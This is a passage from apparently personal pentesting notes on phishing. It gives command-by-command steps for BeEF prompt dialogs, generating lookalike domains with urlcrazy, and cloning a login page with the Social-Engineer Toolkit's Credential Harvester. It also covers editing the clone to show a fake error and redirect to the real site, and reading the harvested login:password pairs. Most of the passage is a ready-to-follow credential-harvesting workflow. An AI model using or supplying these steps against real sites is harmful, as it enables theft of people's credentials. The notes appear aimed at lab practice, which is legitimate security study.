 in BeEF GUI:

```bash
Current Browser > Commands > Browser > Hooked Domain > Create Prompt Dialog
<write something> - Execute
```

#### Create a Similar Targets Domain with URLCRAZY

```bash
urlcrazy <target URL>
```

#### Cloning with The Social-Engineer Toolkit

```bash
setoolkit
```

in shell:

```bash
cd /usr/share/set/config; 
cp set_config set_config.bkp
edit set_config > APACHE_DIRECTORY=/var/www/cloned.test
edit HARVESTER_LOG=/var/www/cloned.test/
```

in SET:

```bash
1 - Social-Engineer Attacks
2 - Website Attack Vectors
3 - Credential Harvester Attack Method
2 - Site Cloner
# <in real scenarios we need to configure an external IP address, in this case well skip>
# <enter the URL to clone>
```

> test in browser the cloned site

```bash
cd /var/www/cloned.test/
edit index.html
add in responseBody > ("An error has occurred, Please Retry!");
add setTimeout(function(){document.location.href="<the original URL of the target>";},2000);
clean other lines that are not useful to the code
```

```bash
mv post.php login.php 
# because the javascript want a login.php page

insert login:password in the test cloned site, it should redirect to the original after the try

go to /var/www/cloned.test/
cat harvester file 

# it should show the login:password captured
```
